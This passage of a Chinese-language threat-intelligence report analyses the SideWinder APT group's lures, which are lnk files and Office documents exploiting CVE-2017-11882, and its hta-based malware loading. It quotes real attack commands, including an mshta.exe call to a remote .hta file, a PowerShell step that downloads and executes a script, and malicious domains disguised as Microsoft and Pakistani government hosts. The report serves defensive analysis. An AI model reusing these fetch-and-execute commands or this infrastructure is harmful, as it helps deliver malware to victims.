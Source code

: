 








由于捕捉到样本时，该服务器已经失效，因此无法继续分析下载回的js。


三、攻击技术特点


腾讯御见威胁情报中心对SideWinder的攻击活动进行了持续的跟踪，对该组织的技术特点及变化整理如下：


攻击诱饵


该组织的攻击诱饵主要有以下两类：office文档和lnk。


1、 lnk


如某次攻击中的诱饵文件如下：






执行该lnk后，会执行命令：“%windir%\system32\mshta.exe https://msftupdate.srv-cdn.com/cdne/plds/zoxr4yr5KV.hta”








执行后，最终会使用powershell把真正的pdf给释放到%temp%\amend-ins-visit-on-abroad-15-11-2017.pdf然后打开，并且从https://msftupdate.srv-cdn.com/fin.hta下载并执行hta脚本。










2、 office文档


office文档是该组织最喜欢的攻击诱饵，捕捉到的攻击活动绝大部分都使用office文档做为攻击诱饵。并且都使用CVE-2017-11882漏洞来执行后续活动。如上述分析中的诱饵文件。也如某次攻击的诱饵文档：






触发漏洞后，会从http://www.nadra.gov.pk.d-dns.co/includes/686a0ea5/-1/1224/fa1b01fb/final.hta下载最终执行的hta脚本。


木马加载技术


SideWinder组织的恶意文件的加载技术主要是使用hta脚本和白加黑的方式来进行。其中hta脚本用来做一些初始化的操作，如释放相应的恶意文件等；而释放的恶意文件采用白加黑的方式来隐藏自身和躲避拦截和查杀。但是在持续跟踪过程中，我们也发现该组织的一些技术细节也在不断的进行进化，根据该变化我们把它分为三个阶段：


1、 阶段一：~2018年10月
